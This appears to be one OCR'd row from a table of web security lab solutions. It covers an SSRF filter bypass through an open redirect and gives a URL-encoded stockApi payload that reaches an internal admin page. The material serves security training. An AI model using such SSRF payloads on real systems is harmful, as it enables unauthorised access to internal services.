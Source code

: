 |78    |SSRF with filter bypass via open redirection vulnerability                                                               |/product/nextProduct?path=http://192.168.0.12:8080/admin  stockApi=%2fproduct%2fnextProduct%3fpath%3dhttp%3a%2f%2f192.168.0.12%3a8080%2fadmin                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |the path  parameter is placed into the Location header of a redirection response, resulting in an open redirection. You can use this to redirect the stockApi checker to the internal admin page service                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |Practitioner, Review, SSRF                  |